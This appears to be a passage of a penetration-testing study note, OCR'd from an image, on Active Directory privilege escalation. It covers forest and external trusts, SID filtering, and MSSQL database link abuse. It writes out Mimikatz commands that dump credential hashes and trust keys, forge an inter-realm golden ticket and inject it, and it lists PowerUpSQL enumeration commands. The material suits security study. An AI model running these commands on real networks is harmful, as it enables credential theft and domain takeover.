 **Exploitation 2 with KRBTGT Hash**
- `Invoke-Mimikatz -Command '"lsadump::lsa /patch"'`
- TODO: I will explain in detail.

**Forest to Forest**
- sIDfiltering mechanism blocks the same trust key in the different forests.
- Since from 500 to 1000 SIDs are system reserved objects, User-Created objects always have SIDs greater than 1000. And sIDFiltering blocks system reserved objects' SID range.
- **That is why a forest called security boundary.**
- We cannot escalate to enterprise admin for other forest by injecting Enterprise Admin SID.
- **Every two forest needs at least some trusts to share services**.
- **Look for shares, services that has trust relationships between forests.**
- `net view \\eurocorp.dc.eurocorp.local`: To list fileshares on domain controller in different forest.
# Domain Privilege Escalation - External Trusts
- Kerberos authentication works similar to child-parent domain.
- We cannot abuse sIDHistory because there are 2 different forest. And each forest has their own SID filtering mechanism.

* `"lsadump::trust /patch"` -> Extracting trust key, **check external trust machine account hashes**.
* `"kerberos::golden /user:Administrator /domain:<child-domain> /sid:<current-domain-sid> /sids:<enterprise-admins-groups-parent-domain-sid> /rc4:<trust-key> /service:krbtgt /target:<external-domain> /ticket:trust_tkt.kirbi"`: To generate a TGT ticket. 
`kirbikator.exe lsa .\FQDN.kirbi` -> To inject ticket from file to memory.
- After ticket is inject the memory, we can use ticket to access resources.

# Domain Privilege Escalation - MSSQL Servers
* We are in information security are so privileges are just a mean to access information. If you can extract information without having high privileges, that's the best scenario.
- MSSQL servers are generally deployed in plenty in a Windows domain.
- PowerUpSQL is a tool for MSSQL abuse.
* PowerUp Cmdlets: 
	* `Get-SQLInstanceDomain`: List all SQL servers by checking SPNs in Active Directory.
	* `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`: Get basic information about SQL server.
- **A database link allows a SQL server to access external data sources like other SQL servers and OLE DB data sources.**
- In case of database links between SQL servers, linked SQL servers is possible to execute stored procedures.
- Database links work even there is no forest trust.
* `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose`: Get MSSQL server database links recursive.
- On the target server, we must have xp_cmdshell function enabled to execute commands on the target database server operating system.

